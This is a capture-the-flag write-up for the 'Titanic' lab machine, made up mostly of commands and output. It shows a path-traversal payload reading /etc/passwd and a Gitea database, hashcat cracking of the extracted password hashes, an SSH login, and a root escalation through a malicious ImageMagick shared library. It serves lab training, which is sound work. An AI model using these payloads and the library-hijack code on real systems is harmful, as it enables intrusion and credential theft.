


# Copy of Copy of Titanic

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.55 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-15 22:54 CET
Initiating SYN Stealth Scan at 22:54
Scanning 10.10.11.55 [65535 ports]
Discovered open port 80/tcp on 10.10.11.55
Discovered open port 22/tcp on 10.10.11.55
Completed SYN Stealth Scan at 22:54, 12.22s elapsed (65535 total ports)
Nmap scan report for 10.10.11.55
Host is up, received user-set (0.038s latency).
Scanned at 2025-02-15 22:54:21 CET for 12s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.34 seconds
           Raw packets sent: 65535 (2.884MB) | Rcvd: 65540 (2.622MB)
```


```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.55
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```


```bash
❯ nmap -sCV -p22,80 10.10.11.55 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-15 22:57 CET
Nmap scan report for titanic.htb (10.10.11.55)
Host is up (0.067s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Titanic - Book Your Ship Trip
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/3.0.3 Python/3.10.12
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   89.47 ms 10.10.16.1
2   30.64 ms titanic.htb (10.10.11.55)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.51 seconds
```


```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


<figure><figcaption></figcaption></figure>

```bash
❯ cat /etc/hosts | grep titanic
10.10.11.55 titanic.htb
```


```bash
❯ whatweb http://titanic.htb/
http://titanic.htb/ [200 OK] Bootstrap[4.5.2], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.3 Python/3.10.12], IP[10.10.11.55], JQuery, Python[3.10.12], Script, Title[Titanic - Book Your Ship Trip], Werkzeug[3.0.3]
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ catnp 60868fee-0d5f-491d-a64a-8a583bc53b2f.json
{"name": "Gzzcoo", "email": "gzzcoo@titanic.htb", "phone": "666666666", "date": "1222-12-12", "cabin": "Standard"}
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ wfuzz --hw=28 -c --hc=404,400 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.titanic.htb" http://titanic.htb 2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://titanic.htb/
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                             
=====================================================================

000000821:   200        275 L    1278 W     13871 Ch    "dev" 
```


```bash
❯ cat /etc/hosts | grep titanic
10.10.11.55 titanic.htb dev.titanic.htb
```


```bash
❯ whatweb http://dev.titanic.htb/
http://dev.titanic.htb/ [200 OK] Apache[2.4.52], Cookies[_csrf,i_like_gitea], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], HttpOnly[_csrf,i_like_gitea], IP[10.10.11.55], Meta-Author[Gitea - Git with a cup of tea], Open-Graph-Protocol[website], PoweredBy[Gitea], Script, Title[Gitea: Git with a cup of tea], X-Frame-Options[SAMEORIGIN]
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ unzip flask-app-main.zip
Archive:  flask-app-main.zip
f747049bc949526d9cd9bd45cfaeed6f6db92496
   creating: flask-app/
  inflating: flask-app/README.md     
  inflating: flask-app/app.py        
   creating: flask-app/static/
  inflating: flask-app/static/styles.css  
   creating: flask-app/templates/
  inflating: flask-app/templates/index.html  
   creating: flask-app/tickets/
  inflating: flask-app/tickets/2d46c7d1-66f4-43db-bfe4-ccbb1a5075f2.json  
  inflating: flask-app/tickets/e2a629cd-96fc-4b53-9009-4882f8f6c71b.json 
   
❯ ls -l flask-app
drwxrwxr-x kali kali 4.0 KB Fri Aug  2 13:38:28 2024  static
drwxrwxr-x kali kali 4.0 KB Fri Aug  2 13:38:28 2024  templates
drwxrwxr-x kali kali 4.0 KB Fri Aug  2 13:38:28 2024  tickets
.rw-rw-r-- kali kali 1.4 KB Fri Aug  2 13:38:28 2024  app.py
.rw-rw-r-- kali kali 930 B  Fri Aug  2 13:38:28 2024  README.md
```


```bash
❯ tree
.
├── app.py
├── README.md
├── static
│   └── styles.css
├── templates
│   └── index.html
└── tickets
    ├── 2d46c7d1-66f4-43db-bfe4-ccbb1a5075f2.json
    └── e2a629cd-96fc-4b53-9009-4882f8f6c71b.json

4 directories, 6 files
```


```bash
❯ cat tickets/*
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: tickets/2d46c7d1-66f4-43db-bfe4-ccbb1a5075f2.json
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ {"name": "Rose DeWitt Bukater", "email": "rose.bukater@titanic.htb", "phone": "643-999-021", "date": "2024-08-22", "cabin": "Suite"}
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: tickets/e2a629cd-96fc-4b53-9009-4882f8f6c71b.json
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ {"name": "Jack Dawson", "email": "jack.dawson@titanic.htb", "phone": "555-123-4567", "date": "2024-08-23", "cabin": "Standard"}
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```



```python
from flask import Flask, request, jsonify, send_file, render_template, redirect, url_for, Response
import os
import json
from uuid import uuid4

app = Flask(__name__)

TICKETS_DIR = "tickets"

if not os.path.exists(TICKETS_DIR):
    os.makedirs(TICKETS_DIR)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/book', methods=['POST'])
def book_ticket():
    data = {
        "name": request.form['name'],
        "email": request.form['email'],
        "phone": request.form['phone'],
        "date": request.form['date'],
        "cabin": request.form['cabin']
    }

    ticket_id = str(uuid4())
    json_filename = f"{ticket_id}.json"
    json_filepath = os.path.join(TICKETS_DIR, json_filename)

    with open(json_filepath, 'w') as json_file:
        json.dump(data, json_file)

    return redirect(url_for('download_ticket', ticket=json_filename))

@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

    if os.path.exists(json_filepath):
        return send_file(json_filepath, as_attachment=True, download_name=ticket)
    else:
        return jsonify({"error": "Ticket not found"}), 404

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=5000)
```



<figure><figcaption></figcaption></figure>


```bash
❯ curl -s 'http://titanic.htb/download?ticket=../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```


```bash
❯ curl -s 'http://titanic.htb/download?ticket=../../../home/developer/user.txt'
b1a7050e29f63e8e97b196404f88e34a
```





```
❯ curl -s 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db' --output gitea.db
❯ ls -l gitea.db
.rw-rw-r-- kali kali 2.0 MB Sat Feb 15 23:18:53 2025  gitea.db
❯ file gitea.db
gitea.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 563, database pages 509, cookie 0x1d9, schema 4, UTF-8, version-valid-for 563
```


```bash
❯ sqlite3 gitea.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
access                     oauth2_grant             
access_token               org_user                 
action                     package                  
action_artifact            package_blob             
action_run                 package_blob_upload      
action_run_index           package_cleanup_rule     
action_run_job             package_file             
action_runner              package_property         
action_runner_token        package_version          
action_schedule            project                  
action_schedule_spec       project_board            
action_task                project_issue            
action_task_output         protected_branch         
action_task_step           protected_tag            
action_tasks_version       public_key               
action_variable            pull_auto_merge          
app_state                  pull_request             
attachment                 push_mirror              
auth_token                 reaction                 
badge                      release                  
branch                     renamed_branch           
collaboration              repo_archiver            
comment                    repo_indexer_status      
commit_status              repo_redirect            
commit_status_index        repo_topic               
commit_status_summary      repo_transfer            
dbfs_data                  repo_unit                
dbfs_meta                  repository               
deploy_key                 review                   
email_address              review_state             
email_hash                 secret                   
external_login_user        session                  
follow                     star                     
gpg_key                    stopwatch                
gpg_key_import             system_setting           
hook_task                  task                     
issue                      team                     
issue_assignees            team_invite              
issue_content_history      team_repo                
issue_dependency           team_unit                
issue_index                team_user                
issue_label                topic                    
issue_user                 tracked_time             
issue_watch                two_factor               
label                      upload                   
language_stat              user                     
lfs_lock                   user_badge               
lfs_meta_object            user_blocking            
login_source               user_open_id             
milestone                  user_redirect            
mirror                     user_setting             
notice                     version                  
notification               watch                    
oauth2_application         webauthn_credential      
oauth2_authorization_code  webhook  
```


```bash
sqlite> SELECT * FROM user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
```


```bash
sqlite> .schema user
CREATE TABLE `user` (`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, `lower_name` TEXT NOT NULL, `name` TEXT NOT NULL, `full_name` TEXT NULL, `email` TEXT NOT NULL, `keep_email_private` INTEGER NULL, `email_notifications_preference` TEXT DEFAULT 'enabled' NOT NULL, `passwd` TEXT NOT NULL, `passwd_hash_algo` TEXT DEFAULT 'argon2' NOT NULL, `must_change_password` INTEGER DEFAULT 0 NOT NULL, `login_type` INTEGER NULL, `login_source` INTEGER DEFAULT 0 NOT NULL, `login_name` TEXT NULL, `type` INTEGER NULL, `location` TEXT NULL, `website` TEXT NULL, `rands` TEXT NULL, `salt` TEXT NULL, `language` TEXT NULL, `description` TEXT NULL, `created_unix` INTEGER NULL, `updated_unix` INTEGER NULL, `last_login_unix` INTEGER NULL, `last_repo_visibility` INTEGER NULL, `max_repo_creation` INTEGER DEFAULT -1 NOT NULL, `is_active` INTEGER NULL, `is_admin` INTEGER NULL, `is_restricted` INTEGER DEFAULT 0 NOT NULL, `allow_git_hook` INTEGER NULL, `allow_import_local` INTEGER NULL, `allow_create_organization` INTEGER DEFAULT 1 NULL, `prohibit_login` INTEGER DEFAULT 0 NOT NULL, `avatar` TEXT NOT NULL, `avatar_email` TEXT NOT NULL, `use_custom_avatar` INTEGER NULL, `num_followers` INTEGER NULL, `num_following` INTEGER DEFAULT 0 NOT NULL, `num_stars` INTEGER NULL, `num_repos` INTEGER NULL, `num_teams` INTEGER NULL, `num_members` INTEGER NULL, `visibility` INTEGER DEFAULT 0 NOT NULL, `repo_admin_change_team_access` INTEGER DEFAULT 0 NOT NULL, `diff_view_style` TEXT DEFAULT '' NOT NULL, `theme` TEXT DEFAULT '' NOT NULL, `keep_activity_private` INTEGER DEFAULT 0 NOT NULL);
CREATE UNIQUE INDEX `UQE_user_name` ON `user` (`name`);
CREATE UNIQUE INDEX `UQE_user_lower_name` ON `user` (`lower_name`);
CREATE INDEX `IDX_user_is_active` ON `user` (`is_active`);
CREATE INDEX `IDX_user_created_unix` ON `user` (`created_unix`);
CREATE INDEX `IDX_user_updated_unix` ON `user` (`updated_unix`);
CREATE INDEX `IDX_user_last_login_unix` ON `user` (`last_login_unix`);
```


```bash
❯ echo 'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56' > hashes
❯ hashid 'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56'
Analyzing 'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56'
[+] Unknown hash
❯ hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

No hash-mode matches the structure of the input hash.

Started: Sat Feb 15 23:21:54 2025
Stopped: Sat Feb 15 23:21:56 2025

```


```bash
❯ sqlitebrowser gitea.db
```

<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>





<figure><figcaption></figcaption></figure>


```bash
❯ sqlite3 gitea.db "select passwd from user" | while read hash; do echo "$hash" | xxd -r -p | base64; done
y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```


```bash
❯ sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```


```bash
❯ hashcat -a 0 -m 10900 gitea.hashes /usr/share/wordlists/rockyou.txt --user
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 2 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344387
* Bytes.....: 139921528
* Keyspace..: 14344387

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```


```bash
❯ ssh developer@titanic.htb
developer@titanic.htb's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Feb 15 10:37:47 PM UTC 2025

  System load:           0.0
  Usage of /:            68.2% of 6.79GB
  Memory usage:          15%
  Swap usage:            0%
  Processes:             229
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.55
  IPv6 address for eth0: dead:beef::250:56ff:fe94:a405


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


developer@titanic:~$ cat user.txt 
b1a7050e29f63e8e97b196404f88e34a
```


```bash
developer@titanic:~$ id
uid=1000(developer) gid=1000(developer) groups=1000(developer)

developer@titanic:~$ sudo -l
[sudo] password for developer: 
Sorry, user developer may not run sudo on titanic.
```


```bash
❯ ls -l linpeas.sh
.rw-r--r-- kali kali 806 KB Sat Feb 15 23:38:37 2025  linpeas.sh

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


```bash
developer@titanic:/tmp$ wget 10.10.16.3/linpeas.sh; chmod +x linpeas.sh
--2025-02-15 22:39:50--  http://10.10.16.3/linpeas.sh
Connecting to 10.10.16.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 824942 (806K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                                100%[==================================================================================================================================>] 805.61K   743KB/s    in 1.1s    

2025-02-15 22:39:52 (743 KB/s) - ‘linpeas.sh’ saved [824942/824942]
```


<figure><figcaption></figcaption></figure>


```bash
developer@titanic:/opt$ ls -l
total 12
drwxr-xr-x 5 root developer 4096 Feb  7 10:37 app
drwx--x--x 4 root root      4096 Feb  7 10:37 containerd
drwxr-xr-x 2 root root      4096 Feb  7 10:37 scripts
developer@titanic:/opt$ cd scripts/
developer@titanic:/opt/scripts$ ls -l
total 4
-rwxr-xr-x 1 root root 167 Feb  3 17:11 identify_images.sh
developer@titanic:/opt/scripts$ cat identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```


```bash
developer@titanic:/opt/app/static/assets/images$ ls -l
total 1280
-rw-r----- 1 root developer 291864 Feb  3 17:13 entertainment.jpg
-rw-r----- 1 root developer 280854 Feb  3 17:13 exquisite-dining.jpg
-rw-r----- 1 root developer 209762 Feb  3 17:13 favicon.ico
-rw-r----- 1 root developer 232842 Feb  3 17:13 home.jpg
-rw-r----- 1 root developer 280817 Feb  3 17:13 luxury-cabins.jpg
-rw-r----- 1 root developer    442 Feb 15 22:41 metadata.log
developer@titanic:/opt/app/static/assets/images$ cp entertainment.jpg test2.jpg
developer@titanic:/opt/app/static/assets/images$ ls -l
total 1568
-rw-r----- 1 root      developer 291864 Feb  3 17:13 entertainment.jpg
-rw-r----- 1 root      developer 280854 Feb  3 17:13 exquisite-dining.jpg
-rw-r----- 1 root      developer 209762 Feb  3 17:13 favicon.ico
-rw-r----- 1 root      developer 232842 Feb  3 17:13 home.jpg
-rw-r----- 1 root      developer 280817 Feb  3 17:13 luxury-cabins.jpg
-rw-r----- 1 root      developer    442 Feb 15 22:41 metadata.log
-rw-r----- 1 developer developer 291864 Feb 15 22:41 test2.jpg
```


```bash
developer@titanic:/opt/app/static/assets/images$ which magick
/usr/bin/magick
developer@titanic:/opt/app/static/assets/images$ magick --version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```


<figure><figcaption></figcaption></figure>





<figure><figcaption></figcaption></figure>


```bash
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
> #include <stdio.h>
> #include <stdlib.h>
> #include <unistd.h>
> 
> __attribute__((constructor)) void init(){
>     system("id");
>     exit(0);
> }
> EOF
developer@titanic:/opt/app/static/assets/images$ magick /dev/null /dev/null
uid=1000(developer) gid=1000(developer) groups=1000(developer)
```


```bash
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/root.txt");
    exit(0);
}
EOF
developer@titanic:/opt/app/static/assets/images$ cp entertainment.jpg example.jpg
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  example.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  libxcb.so.1  luxury-cabins.jpg  metadata.log
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  example.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  libxcb.so.1  luxury-cabins.jpg  metadata.log
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  example.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  luxury-cabins.jpg  metadata.log
developer@titanic:/opt/app/static/assets/images$ ls -l /tmp
total 36
-rw-r--r-- 1 root root   33 Feb 15 22:53 root.txt
drwx------ 3 root root 4096 Feb 15 18:56 snap-private-tmp
drwx------ 3 root root 4096 Feb 15 18:56 systemd-private-33a772c388c040da98b2531770d8cbd2-apache2.service-sf8WAV
drwx------ 3 root root 4096 Feb 15 18:56 systemd-private-33a772c388c040da98b2531770d8cbd2-ModemManager.service-qtqDH6
drwx------ 3 root root 4096 Feb 15 18:56 systemd-private-33a772c388c040da98b2531770d8cbd2-systemd-logind.service-r4f56E
drwx------ 3 root root 4096 Feb 15 18:56 systemd-private-33a772c388c040da98b2531770d8cbd2-systemd-resolved.service-PfrsTg
